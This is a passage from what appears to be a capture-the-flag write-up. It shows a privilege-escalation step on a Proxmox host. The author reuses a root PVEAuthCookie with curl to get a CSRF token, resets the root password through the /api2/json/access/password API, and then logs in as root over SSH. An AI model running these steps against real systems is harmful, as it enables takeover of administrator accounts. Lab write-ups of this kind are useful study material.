I ran `curl` to test the cookie. The presence of the `Proxmox` object in the response indicated the authentication was successful. I noted down the CSRF token `68E8F4D2:E+tWtnOvdovCqwGZa74W8/Bbv5xus5Hhipkkr2JHkj8`.
```
sysadmin@corporate:~$ curl -L -k localhost:8006 -b "PVEAuthCookie=PVE:root@pam:68E8F49C::BS1y0RlWtGS/bmUPvAck2kMwyIZU2xjLN1K6dfbK+QumMrFHj1xD9INCpJJBgXoQVVQ2kisoblDY52jucdgN4q6LTy1IRTGuxFrTZPrRBTlyejaRdXGrgm/ky8Gabj1S99tkbdPKaASFa9p877W5qnpFkVLZ6xrwpX3yYcV5YbI6oa/16OZmExdFbaNuVm/hZ4NC2sFiXor8dCMy8KlGMTenlAH63iIWQDTVqkYjuaTVGMObSWlYde67AgsoY+Q0OaJ/hUIFqYsC6uMiaD4D7WzwSKf1Wh7g1PW1To4SKTMohjz8A+bP1jheukdfzw/x4IREPrGK8NOB1oC0VyqpSw=="
<SNIP>
    Proxmox = {
        Setup: { auth_cookie_name: 'PVEAuthCookie' },
        defaultLang: 'en',
        NodeName: 'corporate',
        UserName: 'root@pam',
        CSRFPreventionToken: '68E8F731:8GsMFM5ntVWEwnx28kIy7H9YSgPMb7yOnP3EqcM9F9g'
<SNIP>
```

I tested the config end point, and it worked.
```
sysadmin@corporate:~$ curl -L -k localhost:8006/api2/json/cluster/config -b "PVEAuthCookie=PVE:root@pam:68E8F49C::BS1y0RlWtGS/bmUPvAck2kMwyIZU2xjLN1K6dfbK+QumMrFHj1xD9INCpJJBgXoQVVQ2kisoblDY52jucdgN4q6LTy1IRTGuxFrTZPrRBTlyejaRdXGrgm/ky8Gabj1S99tkbdPKaASFa9p877W5qnpFkVLZ6xrwpX3yYcV5YbI6oa/16OZmExdFbaNuVm/hZ4NC2sFiXor8dCMy8KlGMTenlAH63iIWQDTVqkYjuaTVGMObSWlYde67AgsoY+Q0OaJ/hUIFqYsC6uMiaD4D7WzwSKf1Wh7g1PW1To4SKTMohjz8A+bP1jheukdfzw/x4IREPrGK8NOB1oC0VyqpSw="
{"data":[{"name":"nodes"},{"name":"totem"},{"name":"join"},{"name":"qdevice"},{"name":"apiversion"}]}
```

I sent a PUT request to the `/api2/json/access/password` endpoint using the cookie and CSRF token to reset the root password.
```
sysadmin@corporate:~$ curl -L -k localhost:8006/api2/json/access/password -b "PVEAuthCookie=PVE:root@pam:68E8F49C::BS1y0RlWtGS/bmUPvAck2kMwyIZU2xjLN1K6dfbK+QumMrFHj1xD9INCpJJBgXoQVVQ2kisoblDY52jucdgN4q6LTy1IRTGuxFrTZPrRBTlyejaRdXGrgm/ky8Gabj1S99tkbdPKaASFa9p877W5qnpFkVLZ6xrwpX3yYcV5YbI6oa/16OZmExdFbaNuVm/hZ4NC2sFiXor8dCMy8KlGMTenlAH63iIWQDTVqkYjuaTVGMObSWlYde67AgsoY+Q0OaJ/hUIFqYsC6uMiaD4D7WzwSKf1Wh7g1PW1To4SKTMohjz8A+bP1jheukdfzw/x4IREPrGK8NOB1oC0VyqpSw=" -H "CSRFPreventionToken: 68E8F731:8GsMFM5ntVWEwnx28kIy7H9YSgPMb7yOnP3EqcM9F9g" -X PUT -d "password=Password1&userid=root@pam"
{"data":null}
```

The response didn't indicate success of fail. Nevertheless I tried logging in via SSH as root and succeeded.
```
❯ ssh root@10.9.0.1
root@10.9.0.1's password:
Linux corporate 5.15.131-1-pve #1 SMP PVE 5.15.131-2 (2023-11-14T11:32Z) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 15 11:34:57 2025
root@corporate:~#
```
